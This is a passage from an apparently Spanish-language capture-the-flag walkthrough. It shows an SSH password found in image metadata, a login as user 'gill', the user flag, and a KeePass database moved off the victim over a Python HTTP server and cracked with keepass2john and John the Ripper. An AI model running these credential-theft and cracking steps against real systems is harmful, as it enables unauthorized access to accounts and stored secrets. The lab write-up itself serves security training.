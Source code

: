 Vemos bastante informacion pero entre ella veremos lo siguiente:

```
Text Layer Name    : ssh password is 59583hello of course it is lowercase maybe not
Text Layer Text    : ssh password is 59583hello of course it is lowercase maybe not :)
```

Vemos lo que parece las credenciales del usuario `gill` por el `SSH`, vamos a probarlo.

### SSH

```shell
ssh gill@<IP>
```

Metemos como contraseña `59583hello` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
F83FC7429857283616AE62F8B64143E6
```

## Escalate Privileges

Si listamos la `home` del propio usuario `gill` veremos este archivo de aqui.

```
-rwx------ 1 gill gill 2030 Feb 24  2021 keyfile.kdbx
```

Vemos que es un archivo de `KeePass` por lo que vamos a pasarnoslo al `host` y vamos a `crakear` la contraseña en nuestro `host`.

Abriremos un servidor de `python3` en la maquina victima.

```shell
python3 -m http.server
```

En la maquina `host` nos lo descargaremos con la herramienta `wget`, una vez echo esto, haremos lo siguiente.

```shell
keepass2john keyfile.kdbx > hash.keep
```

```shell
john --wordlist=<WORDLIST> hash.keep
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
porsiempre       (keyfile)     
1g 0:00:00:21 DONE (2025-05-26 03:37) 0.04646g/s 320.4p/s 320.4c/s 320.4C/s winston1..lollie
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
